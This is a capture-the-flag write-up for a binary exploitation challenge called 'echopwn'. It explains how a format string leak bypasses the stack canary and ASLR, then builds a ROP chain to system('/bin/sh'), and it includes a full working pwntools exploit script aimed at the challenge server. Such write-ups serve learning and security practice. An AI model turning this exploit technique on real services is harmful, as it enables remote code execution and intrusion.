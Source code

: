 ### 0x00 Challenge: echopwn
**Description:**
>nc 168.119.247.237 5011

### 0x01 Write-up:
This program has two vulnerabilities: a format string and a buffer overflow. In this program you can not run code in the stack because it is compiled with NX enabled and it is also compiled with stack-protector (canaries) to prevent buffer overflow attacks, thus to solve this challenge you have to bypass the stack canary protection and make a simple ROP (Return oriented programming) to run system("/bin/sh"). To do this, you need to know the value of the stack canary and a glibc address, so, you can use the format string vulnerability to leak the canary and a libc address.

Therefore, the exploit consist in:
1. Leak canary and libc address;
2. Calculate the libc base address;
3. Search ROP gadgets (pop rdi; ret);
4. Make the payload (bypass the canary + gadgets); and
5. Run it.

**Exploit:**
```python
from pwn import *

context(arch = 'amd64', os = 'linux')

context.terminal = ["tmux", "splitw", "-h"]

elf = ELF("./echopwn")
p = remote("168.119.247.237", 5011)

"""
p = gdb.debug("./echopwn", '''
break main
break doRead+123
''')
#p.timeout = 0.5
"""
libc = elf.libc

p.sendline("%13$p,%19$p")
data = p.recvuntil("\x0a").decode('iso-8859-1').replace("echo> ","")
log.info("Canary: " + data.split(",")[0])
canary = int(data.split(",")[0], 16)
libc_start_main_addr = int(data.split(",")[1], 16) - 237
libc.address = libc_start_main_addr - libc.sym.__libc_start_main
log.info(f"libc addr: 0x{libc.address:02x}")
##### ROP Gadgets #####
rop = ROP(libc)
pop_rdx = (rop.find_gadget(['pop rdx', 'ret']))[0]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
log.info(f"pop rdi gadget: 0x{pop_rdi:02x}")

p.recvuntil("echo>")
# Exploit
p.sendline(b"A"*52 + p64(canary) + b"AAAAAAAA"+p64(pop_rdi)+p64(next(libc.search(b'/bin/sh\0')))+p64(libc.sym.system))

p.interactive()
```



